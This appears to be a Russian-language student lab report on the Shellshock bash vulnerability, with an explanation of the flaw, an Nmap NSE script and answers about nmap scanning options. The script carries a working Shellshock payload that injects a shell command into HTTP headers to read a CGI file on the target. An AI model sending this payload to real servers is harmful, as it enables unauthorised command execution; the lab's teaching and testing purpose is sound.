

# Лабораторная работа №4
1) Уязвимость Shellshock (или Bashdoor) - это уязвимость в оболочке Bash. Она позволяет злоумышленнику выполнить произвольные команды на сервере, используя специально сконструированные переменные среды. Уязвимость проявляется в возможности выполнения кода в bash-скриптах, вызываемых через переменные окружения, что позволяет злоумышленнику запустить произвольные команды на сервере. Это может привести к серьезным последствиям, таким как компрометация сервера, утечка данных и т. д.

2) Скрипт:
```nse
local shortport = require "shortport"
local http = require "http"
local stdnse = require "stdnse"

description = [[
Detects the Shellshock vulnerability by sending a specially crafted HTTP request.
]]

---
-- @output
-- PORT   STATE SERVICE
-- 80/tcp open  http
-- | scan:
-- |   VULNERABLE
-- |   Detected by sending a specially crafted HTTP request.
--
-- @args shellshock.path Path to test for Shellshock vulnerability
-- @args shellshock.headers Additional HTTP headers to include in the request
-- @args shellshock.timeout Request timeout in seconds
-- @args shellshock.ssl Use SSL/TLS
--
-- @usage
-- nmap --script shellshock -p 80 <target>
--
-- @output
-- PORT   STATE SERVICE
-- 80/tcp open  http
-- | scan:
-- |   VULNERABLE
-- |   Detected by sending a specially crafted HTTP request.
--
-- @args shellshock.path Path to test for Shellshock vulnerability
-- @args shellshock.headers Additional HTTP headers to include in the request
-- @args shellshock.timeout Request timeout in seconds
-- @args shellshock.ssl Use SSL/TLS
--
-- @usage
-- nmap --script shellshock -p 80 <target>
--

author = "VladGud"

categories = {"vulnerability"}

portrule = shortport.http

action = function(host, port)
  local path = stdnse.get_script_args("shellshock.path") or "/cgi-bin/shockme.cgi"
  local headers = stdnse.get_script_args("shellshock.headers") or {"User-Agent: () { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /usr/lib/cgi-bin/shockme.cgi"}
  local timeout = stdnse.get_script_args("shellshock.timeout") or 10

  local cmd = "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /usr/lib/cgi-bin/shockme.cgi"

  local options = {header={}}
  options["no_cache"] = true
  options["header"]["User-Agent"] = cmd
  options["header"]["Referer"] = cmd
  options["header"]["Cookie"] = cmd

  local req = http.get(host, port, path, options, timeout)
  print(req.body)
  if (req and req.status == 200 and req.body and req.body:match("#!/usr/local/bin/bash")) then
    return string.format("VULNERABLE - Detected by sending a specially crafted HTTP request")
  end
end
```

3) Пример запуска:
```shell
nmap --script scan.nse 172.17.0.2 
```

4) Результаты работы


Вопросы:
1. Что за дефолт порты у nmap

Nmap имеет список портов по умолчанию, который он сканирует, если не указаны конкретные порты для сканирования пользователем. Этот список называется "well-known ports" или "top ports". Он содержит наиболее часто используемые порты, где обычно работают известные службы. Этот список включает порты, такие как 21 (FTP), 22 (SSH), 80 (HTTP) и другие.

2. Как указать сканирование нескольких портов

`nmap --script scan.nse -p 81,8080 172.17.0.2`

3. SYN сканирование - это отправка пакетов TCP SYN (инициализация соединения) с целью получение ответа SYN-ACK, убеждение, что порт открыт на тисипи (прослушивается) и хост живой
4. Как регулировать скоростью сканирования
- `nmap --scan-delay 1ms 172.17.0.2` -- время задержки между пакетами сканирования
- `nmap --max-parallelism 10% 172.17.0.2` -- отправка запросов сканирования в параллельном режиме 